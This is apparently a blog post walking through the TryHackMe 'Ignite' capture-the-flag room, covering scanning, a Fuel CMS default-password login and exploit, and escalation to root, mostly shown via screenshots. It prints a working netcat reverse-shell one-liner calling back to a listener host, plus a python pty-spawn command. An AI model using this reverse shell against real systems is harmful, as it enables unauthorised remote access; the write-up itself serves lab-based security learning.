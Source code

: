 ```yaml
---
layout: post
title: "Ignite"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


### Info

IP: 10.10.233.34

### Nmap

![nmap](/security.github.io/images/ignite/1.png)

Website:

![site](/security.github.io/images/ignite/2.png)

Gobuster:

![gobuster](/security.github.io/images/ignite/3.png)

Exploits:

![exploit](/security.github.io/images/ignite/4.png)

Since the admin did not change their default password, it seems I can just login without having to brute force anything, or figure it out. 

The admin page is located at: http://10.10.233.34/fuel

This brings me to a CMS, where there is very little information.

I decide to now just try out an exploit I found called FuelCMS which grants me a reverse shell. 

![shell](/security.github.io/images/ignite/8.png)

Bingo!

![bingo](/security.github.io/images/ignite/9.png)

I was able to find the user.txt flag pretty easily. 

Looking around, I was able to find a database file:

![10](/security.github.io/images/ignite/10.png)

Root user found! Now I have to escalate. 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.25.18 4242 > /tmp/f`

This spawns a terminal so that I can login to root:

`python -c 'import pty; pty.spawn("/bin/sh")'`

![final](/security.github.io/images/ignite/11.png)

